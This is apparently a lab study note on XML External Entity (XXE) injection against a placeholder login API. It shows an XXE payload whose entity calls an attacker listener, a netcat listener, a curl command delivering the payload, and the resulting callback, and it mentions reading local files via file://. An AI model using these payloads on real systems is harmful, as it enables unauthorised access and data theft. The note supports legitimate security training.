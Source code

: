 ```yaml
---
title: h-XXE
draft: false
tags:
  - xxe
---
```

XML External Entity (XXE) Injection vulnerabilities occur when XML data is taken from a user-controlled input without properly sanitizing or safely parsing it, which may allow us to use XML features to perform malicious actions. XXE vulnerabilities can cause considerable damage to a web application and its back-end server, from disclosing sensitive files to shutting the back-end server down.

> Suppose we are assessing such an application residing in `http://<TARGET IP>:3001`. By the time we browse `http://<TARGET IP>:3001`, we come across an authentication page.

Activate burp suite's proxy (_Intercept On_) and configure your browser to go through it.

Now let us try authenticating. We should see the below inside Burp Suite's proxy.

```
POST /api/login HTTP/1.1


<?xml version="1.0" encoding="UTF-8"?>
	<root>
		<email>
		test@test.com
		</email>
		<password>
		P@ssw0rd
		</password>
	</root>
```

- We notice that an API is handling the user authentication functionality of the application.
- User authentication is generating XML data.

First, we will need to append a DOCTYPE to this request.

> DTD stands for Document Type Definition. A DTD defines the structure and the legal elements and attributes of an XML document. A DOCTYPE declaration can also be used to define special characters or strings used in the document. The DTD is declared within the optional DOCTYPE element at the start of the XML document. Internal DTDs exist, but DTDs can be loaded from an external resource (external DTD).

Our current payload is:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]>
<root>
<email>test@test.com</email>
<password>P@ssw0rd123</password>
</root>
```


We have called our external entity _somename_, and it will use the SYSTEM keyword, which must have the value of a URL, or we can try using a URI scheme/protocol such as `file://` to call internal files.

Let us set up a Netcat listener as follows.

```shell-session
jadu101@htb[/htb]$ nc -nlvp 4444
listening on [any] 4444 ...
```

Now let us make an API call containing the payload we crafted above.

```shell-session
jadu101@htb[/htb]$ curl -X POST http://<TARGET IP>:3001/api/login -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]><root><email>&somename;</email><password>P@ssw0rd123</password></root>'
```

After the call to the API, you will notice a connection being made to the listener.

```shell-session
jadu101@htb[/htb]$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [<VPN/TUN Adapter IP>] from (UNKNOWN) [<TARGET IP>] 54984
GET / HTTP/1.0
Host: <VPN/TUN Adapter IP>:4444
Connection: close
```

